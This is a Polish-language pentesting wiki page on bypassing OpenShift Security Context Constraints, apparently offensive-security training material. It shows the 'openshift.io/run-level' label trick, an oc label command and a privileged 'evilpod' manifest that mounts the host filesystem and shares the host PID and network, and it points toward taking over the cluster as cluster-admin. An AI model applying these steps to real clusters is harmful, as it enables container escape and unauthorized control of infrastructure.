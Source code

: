 # Openshift - SCC bypass

**The original author of this page is** [**Guillaume**](https://www.linkedin.com/in/guillaume-chapela-ab4b9a196)

## Privileged Namespaces

Domyślnie, SCC nie stosuje się do następujących projektów:

- **default**
- **kube-system**
- **kube-public**
- **openshift-node**
- **openshift-infra**
- **openshift**

Jeśli wdrożysz pody w jednym z tych przestrzeni nazw, żadne SCC nie będzie egzekwowane, co pozwala na wdrażanie uprzywilejowanych podów lub montowanie systemu plików hosta.

## Namespace Label

Istnieje sposób na wyłączenie zastosowania SCC na twoim podzie zgodnie z dokumentacją RedHat. Będziesz potrzebować przynajmniej jednej z następujących uprawnień:

- Utwórz przestrzeń nazw i utwórz pod w tej przestrzeni nazw
- Edytuj przestrzeń nazw i utwórz pod w tej przestrzeni nazw
```bash
$ oc auth can-i create namespaces
yes

$ oc auth can-i patch namespaces
yes
```
Specyficzna etykieta `openshift.io/run-level` umożliwia użytkownikom obejście SCC dla aplikacji. Zgodnie z dokumentacją RedHat, gdy ta etykieta jest używana, żadne SCC nie są egzekwowane na wszystkich podach w danej przestrzeni nazw, skutecznie usuwając wszelkie ograniczenia.

<figure><img src="../../../images/Openshift-RunLevel4.png" alt=""><figcaption></figcaption></figure>

## Dodaj etykietę

Aby dodać etykietę w swojej przestrzeni nazw:
```bash
$ oc label ns MYNAMESPACE openshift.io/run-level=0
```
Aby utworzyć przestrzeń nazw z etykietą za pomocą pliku YAML:
```yaml
apiVersion: v1
kind: Namespace
metadata:
name: evil
labels:
openshift.io/run-level: 0
```
Teraz wszystkie nowe pody utworzone w przestrzeni nazw nie powinny mieć żadnego SCC

<pre class="language-bash"><code class="lang-bash"><strong>$ oc get pod -o yaml | grep 'openshift.io/scc'
</strong><strong>$
</strong></code></pre>

W braku SCC nie ma żadnych ograniczeń dotyczących definicji twojego poda. Oznacza to, że złośliwy pod może być łatwo utworzony, aby uciec na system gospodarza.
```yaml
apiVersion: v1
kind: Pod
metadata:
name: evilpod
labels:
kubernetes.io/hostname: evilpod
spec:
hostNetwork: true #Bind pod network to the host network
hostPID: true #See host processes
hostIPC: true #Access host inter processes
containers:
- name: evil
image: MYIMAGE
imagePullPolicy: IfNotPresent
securityContext:
privileged: true
allowPrivilegeEscalation: true
resources:
limits:
memory: 200Mi
requests:
cpu: 30m
memory: 100Mi
volumeMounts:
- name: hostrootfs
mountPath: /mnt
volumes:
- name: hostrootfs
hostPath:
path:
```
Teraz łatwiej jest eskalować uprawnienia, aby uzyskać dostęp do systemu hosta, a następnie przejąć cały klaster, uzyskując uprawnienia 'cluster-admin'. Szukaj części **Node-Post Exploitation** na poniższej stronie:

{{#ref}}
../../kubernetes-security/attacking-kubernetes-from-inside-a-pod.md
{{#endref}}

### Niestandardowe etykiety

Ponadto, w zależności od docelowej konfiguracji, niektóre niestandardowe etykiety / adnotacje mogą być używane w ten sam sposób, co w poprzednim scenariuszu ataku. Nawet jeśli nie są do tego przeznaczone, etykiety mogą być używane do nadawania uprawnień, ograniczania lub nie konkretnego zasobu.

Spróbuj poszukać niestandardowych etykiet, jeśli możesz odczytać niektóre zasoby. Oto lista interesujących zasobów:

- Pod
- Deployment
- Namespace
- Service
- Route
```bash
$ oc get pod -o yaml | grep labels -A 5
$ oc get namespace -o yaml | grep labels -A 5
```
## Wypisz wszystkie uprzywilejowane przestrzenie nazw
```bash
$ oc get project -o yaml | grep 'run-level' -b5
```
## Zaawansowane wykorzystanie

W OpenShift, jak pokazano wcześniej, posiadanie uprawnień do wdrożenia poda w przestrzeni nazw z etykietą `openshift.io/run-level` może prowadzić do prostego przejęcia klastra. Z perspektywy ustawień klastra, ta funkcjonalność **nie może być wyłączona**, ponieważ jest wbudowana w projekt OpenShift.

Jednakże, środki łagodzące, takie jak **Open Policy Agent GateKeeper**, mogą zapobiegać użytkownikom w ustawianiu tej etykiety.

Aby obejść zasady GateKeepera i ustawić tę etykietę w celu przejęcia klastra, **atakujący musieliby zidentyfikować alternatywne metody.**

## Odniesienia

- [https://docs.openshift.com/container-platform/4.8/authentication/managing-security-context-constraints.html](https://docs.openshift.com/container-platform/4.8/authentication/managing-security-context-constraints.html)
- [https://docs.openshift.com/container-platform/3.11/admin_guide/manage_scc.html](https://docs.openshift.com/container-platform/3.11/admin_guide/manage_scc.html)
- [https://github.com/open-policy-agent/gatekeeper](https://github.com/open-policy-agent/gatekeeper)
